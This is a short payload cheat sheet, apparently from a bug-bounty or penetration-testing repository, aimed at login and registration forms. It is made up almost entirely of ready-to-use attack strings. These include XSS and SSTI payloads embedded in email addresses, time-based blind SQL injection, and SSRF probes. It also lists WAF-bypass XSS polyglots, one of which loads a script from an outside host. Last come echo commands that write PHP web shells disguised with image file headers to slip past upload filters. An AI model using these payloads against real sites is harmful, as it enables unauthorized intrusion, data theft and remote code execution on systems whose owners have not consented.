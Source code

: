 Login and register payloads:

- valid Email payloads:
1. test+(<script>alert(0)</script>)@example.com
2. test@example(<script>alert(0)</script>).com
3. "<script>alert(0)</script>"@example.com


Sql injection:
(select(0)from(select(sleep(25)))v) --> Blind 25 seconds
/0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z/ --> Time based 10 seconds



SSTI template injection:
"<%= 7 * 7 %>"@example.com
test+(${{7*7}})@example.com

SSRF:
john.doe@abc123.burpcollaborator.net
john.doe@[127.0.0.1]
-------------------------
html injection(Can use match and replace in request body):
<u>123</u>


-------------
XSS:

https://netsec.expert/posts/xss-in-2021/

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

%3c<aa+ONLOAD+href=javasONLOADcript:promptONLOAD(1)%3e --> WAF BYPASS
<img src onerror=alt=''+document.domain> '  --> WAF Bypass

xss payload --> xss.xml:

<?xml version="1.0" encoding="UTF-8"?>
<html xmlns:html="http://w3.org/1999/xhtml">
<html:script>prompt(document.domain);</html:script>
</html>

Double quote and single quote bypass:
<xhzeem/x=" onmouseover=eva&#x6c;?.(id+/(document.domain)/.source) id=confirm>

'"onclick=(co\u006efirm)?.`0`><sVg/i="${{7*7}}"oNload=" 0>(pro\u006dpt)`1`"></svG/</sTyle/</scripT/</textArea/</iFrame/</noScript/</seLect/--><h1><iMg/srC/onerror=alert`2`>%22%3E%3CSvg/onload=confirm`3`//<Script/src=//zaggeb.xSs.ht></scripT>
------
RCE payload to creating image:
echo -n -e '\xFF\xD8\xFF\xE0<?php system($_GET["cmd"]);?>.' > shell.jpg

echo -n -e '\x89\x50\x4E\x47<?php system($_GET["cmd"]);?>.' > shell.png

echo -n -e '\x47\x49\x46\x38<?php system($_GET["cmd"]);?>.' > shell.gif

echo -n -e '\x42\x4D<?php system($_GET["cmd"]);?>.' > shell.bmp
